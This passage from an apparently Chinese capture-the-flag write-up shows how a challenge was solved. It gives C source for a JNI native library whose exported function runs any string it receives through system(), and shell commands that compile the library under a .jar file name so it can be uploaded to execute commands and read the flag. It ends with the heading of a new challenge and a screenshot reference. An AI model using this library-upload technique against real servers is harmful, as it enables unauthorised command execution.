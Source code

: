 然后是将恶意 C 代码编译成共享链接库

```c
#include "NativeCall.h"
#include<stdlib.h>

#ifdef __cplusplus
extern "C"
{
#endif


JNIEXPORT jstring JNICALL Java_org_example_NativeCall_exec(
        JNIEnv *env, jclass cls, jstring j_str)
{
    const char *c_str = NULL;
    char buff[128] = { 0 };
    c_str = (*env)->GetStringUTFChars(env, j_str, NULL);
    if (c_str == NULL)
    {
        printf("out of memory.n");
        return NULL;
    }
    system(c_str);  // execute command
    (*env)->ReleaseStringUTFChars(env, j_str, c_str);
    return (*env)->NewStringUTF(env, buff);
}
#ifdef __cplusplus
}
#endif
```

首先要生成 NativeCall 类的头文件，然后用 gcc 编译共享链接库

```shell
# 1. 编译 NativeCall.class
javac src/main/java/org/example/NativeCall.java -d bin
# 2. 生成头文件 NativeCall.h
javah -jni -classpath ./bin -o NativeCall.h org.example.NativeCall
# 3. 编译共享链接库，以 jar 为后缀
gcc -I$JAVA_HOME/include -I$JAVA_HOME/include/linux -fPIC -shared NativeCall.c -o libNativeCall.jar
```

将两个 jar 文件都上传后直接执行就能读到 flag


## 西瓜杯 {#西瓜杯}


### 她说她想结婚 {#她说她想结婚}

附件是周处除三害的截图

{{< figure src="/ox-hugo/_20241207_121225screenshot.png" >}}
